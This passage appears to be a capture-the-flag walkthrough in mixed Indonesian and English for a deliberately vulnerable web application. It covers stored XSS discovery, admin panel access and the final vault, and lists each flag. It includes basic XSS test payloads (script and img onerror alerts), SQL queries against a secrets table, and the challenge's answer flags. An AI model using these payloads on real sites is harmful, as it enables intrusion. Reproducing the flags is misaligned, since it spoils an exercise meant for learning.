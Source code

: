 **Flags Found:**
- `FLAG{sql_injection_master_b4d1c0d3}` - Login sebagai admin

### Phase 3: Cross-Site Scripting (XSS) 🚨

#### 3.1 Stored XSS Discovery
```sql
-- Search for XSS payload in employee notes
Search: Alice

-- XSS payload akan muncul di hasil:
<script>alert("FLAG{xss_found_h3r3}")</script>
```

#### 3.2 XSS Exploitation
```javascript
// Payload yang tersimpan di database
<script>alert("FLAG{xss_found_h3r3}")</script>

// Payload untuk testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

**Flags Found:**
- `FLAG{xss_found_h3r3}` - Temukan XSS di employee notes

### Phase 4: Privilege Escalation & Admin Access 🔐

#### 4.1 Admin Panel Access
Setelah login sebagai admin, akses:
- `/admin/secrets.php` - Company secrets
- `/admin/vault.php` - Security vault

#### 4.2 Database Manipulation
```sql
-- View all secrets (admin required)
SELECT * FROM secrets WHERE access_level = 3;

-- Check admin users
SELECT * FROM users WHERE role = 'admin';
```

**Flags Found:**
- `FLAG{admin_access_s3cr3t_pr0j3ct}` - Akses admin/secrets.php

### Phase 5: Final Challenge 🏆

#### 5.1 Security Vault Access
Akses `/admin/vault.php` untuk mendapatkan flag terakhir.

**Flags Found:**
- `FLAG{vault_master_mystery_solved_c0mpl3t3}` - Final flag
